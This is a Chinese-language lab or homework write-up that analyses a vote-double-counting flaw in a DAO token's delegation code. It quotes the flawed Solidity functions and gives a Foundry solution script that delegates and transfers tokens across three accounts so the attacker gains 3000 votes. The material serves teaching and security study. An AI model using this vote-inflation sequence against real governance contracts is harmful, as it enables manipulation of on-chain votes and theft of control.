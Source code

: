 W2

大前提 hacker 取得三位使用者的 private key

### 合約漏洞
- 首先是 `mapping(address => address) internal _delegates;` 
這個變數的問題，這個變數是用來記錄使用者的代表人，但是這個變數是 `internal` 的，所以可以直接透過 `delegate` 這個函數來修改其他使用者的代表人。

- mapping 還沒產生時，會是空值，所以透過 `_delegates[_addr]` 來取值時，會是 0x0000000000000000000000000000000000000000
- 然而 `_moveDelegates` if (from != to && amount > 0) 這個判斷式，只要 from != to 就會執行，
- 所以只要 from 是 0x if (from != address(0)) 跳過，只執行 if (to != address(0)) 這個判斷式。
這騷操作，確實不好看....。

```js
    function delegate(address _addr) external {
        // msg.sender: 0x0000000000000000000000000000000000000001
        // hacker: 0x0000000000000000000000000000000000001337
        return _delegate(msg.sender, _addr);
    }
    function _delegate(address _addr, address delegatee) internal {
        address currentDelegate = _delegates[_addr]; // 還沒設定前 _delegates[_addr] 還是空 所以回傳遞只會是 0x0000000000000000000000000000000000000000
        uint256 _addrBalance = balanceOf(_addr);
        _delegates[_addr] = delegatee;
        _moveDelegates(currentDelegate, delegatee, _addrBalance);
    }
    function _moveDelegates(address from, address to, uint256 amount) internal {
        if (from != to && amount > 0) {
            if (from != address(0)) {
                uint32 fromNum = numCheckpoints[from];
                uint256 fromOld = fromNum > 0 ? checkpoints[from][fromNum - 1].votes : 0;
                uint256 fromNew = fromOld - amount;
                _writeCheckpoint(from, fromNum, fromOld, fromNew);
            }

            if (to != address(0)) {
                uint32 toNum = numCheckpoints[to];
                uint256 toOld = toNum > 0 ? checkpoints[to][toNum - 1].votes : 0;
                uint256 toNew = toOld + amount;
                _writeCheckpoint(to, toNum, toOld, toNew);
            }
        }
    }
```

### 攻擊方式


過程

- 1. hacker 使用 alice 的 錢包地址，執行 `delegate` 函數，將 alice 的代表人設定為 hacker 自己，hacker 代表人獲得 1000 vote。
- 2. hacker 使用 alice 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 bob。
- 3. hacker 使用 bob 的 錢包地址，執行 `delegate` 函數，將 bob 的代表人設定為 hacker 自己，hacker 代表人獲得 2000 vote。
- 4. hacker 使用 bob 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給 carl。
- 5. hacker 使用 carl 的 錢包地址，執行 `delegate` 函數，將 carl 的代表人設定為 hacker 自己，hacker 代表人獲得 3000 vote。
- 6. hacker 使用 carl 的 錢包地址，執行 `transfer` 函數，將 1000 token 轉給自己，取得代幣完美收場。


```js
  vm.startPrank(alice); // hacker using alice address
  // write your soluiton here
  daoToken.delegate(hacker); // alice delegate to hacker -> hacker vote = 1000
  daoToken.transfer(bob, 1000); // hacker using alice address send token to bob
  vm.startPrank(bob); // hacker using bob address
  daoToken.delegate(hacker); // bob delegate to hacker -> hacker vote = 2000
  daoToken.transfer(carl, 1000); // hacker using bob address send token to carl
  vm.startPrank(carl); // hacker using carl address
  daoToken.delegate(hacker); // carl delegate to hacker -> hacker vote = 3000
  daoToken.transfer(hacker, 1000); // hacker using carl address send token to hacker
```


團體作業補充回答：

https://hackmd.io/@jlUcRpm-QcOwe2cxBxjf4w/Sk07j_php